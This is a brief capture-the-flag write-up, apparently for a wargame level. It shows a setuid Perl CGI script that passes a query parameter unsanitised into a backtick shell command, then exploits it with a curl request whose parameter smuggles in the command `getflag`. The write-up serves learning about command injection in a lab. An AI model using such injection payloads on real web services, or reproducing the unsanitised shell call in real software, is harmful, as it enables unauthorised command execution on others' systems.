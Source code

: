 ## Solutions

```console
~$ ls -l
-rwsr-sr-x  1 flag04  level04  152 Mar  5  2016 level04.pl
```
Perl script file found! Owner is flag04  
Lets exploit it

```perl
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));

```

```console
$~ curl localhost:4747/?x=\`getflag\`
```

